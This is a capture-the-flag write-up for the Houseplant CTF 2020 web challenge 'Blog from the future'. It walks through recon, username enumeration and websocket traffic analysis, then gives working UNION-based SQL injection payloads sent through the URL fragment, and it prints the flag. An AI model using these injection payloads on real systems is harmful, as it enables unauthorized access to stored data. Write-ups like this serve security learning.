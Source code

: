 # Houseplant CTF 2020 – Blog from the future

* **Category:** web
* **Points:** 1922

## Challenge

> My friend Bob likes sockets so much, he made his own blog to talk about them. Can you check it out and make sure that it's secure like he assured me it is?
> 
> http://challs.houseplant.riceteacatpanda.wtf:30003
> 
> Dev: jammy

## Solution

A post in the home page says the following.

```
I finally upgraded my blog to use the tech of the future! I'm now using state of the art protection to defend from those pesky spammers... however, I still have to replace my database software to be truly able to call my blog "futuristic". :/
```

Doing some recon, the following file can be found: `http://challs.houseplant.riceteacatpanda.wtf:30003/robots.txt`.

```
User-Agent: *
Disallow: /admin
```

So you can discover an administration page at `http://challs.houseplant.riceteacatpanda.wtf:30003/admin`.

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Bob&#39;s Socket Reviews Administrative Panel</title>
    <link rel='stylesheet' href='/stylesheets/style.css' />
    <link rel='stylesheet' href='/stylesheets/admin.css' />
  </head>
  <body>
    <a href="#home"><h1>Bob&#39;s Socket Reviews Administrative Panel</h1></a>
    <hr />
    
    <form method="POST">
        <input type="text" name="username" placeholder="Username" />
        <input type="password" name="password" placeholder="Password" />
        <!-- I've replaced the password with a one-time TOTP token, but the evil hackers don't need to know that... >:)
        <input type="password" name="totp" placeholder="One-time TOTP token" /> -->
        <input type="submit" value="Log in" />
    </form>
  </body>
</html>
```

Despite the interesting HTML comment, even changing the input field from `password` to `totp` will show that the authentication form is not vulnerable to SQL injection.

You can only discover that the username is `bob`, because for nonexistent user, the authentication answers `User not found`, otherwise it answers `Login failed`.

Analyzing the websockets traffic, you can discover that posts are retrieved with a packet like the following.

![websockets-traffic.png](websockets-traffic.png)

The second part of the packet is the post ID passed using the value specified like URL fragment (i.e. after `#`). 

Analyzing the code in the client side, you can discover that 6 parameters are read form the server response:
* `author`;
* `hidden`, this value seems interesting, because now we know that hidden posts are present;
* `id`;
* `postDate`;
* `text`;
* `title`.

![client-code.png](client-code.png)

You can try a SQL injection on data passed using fragment values.

```
http://challs.houseplant.riceteacatpanda.wtf:30003/#3/**/union/**/select/**/null,null,null,null,null,null
```

Users can be read with the following.

```
http://challs.houseplant.riceteacatpanda.wtf:30003/#3/**/union/**/select/**/null,username,null,null,null,null/**/from/**/users
```

And the flag can be discovered reading all posts.

```
http://challs.houseplant.riceteacatpanda.wtf:30003/#3/**/union/**/select/**/null,null,null,text,null,null/**/from/**/posts
```

![sqli.png](sqli.png)

The flag is the following.

```
rtcp{WebSock3t5_4r3_SQLi_vu1n3r4b1e_t00_bacfe0}
```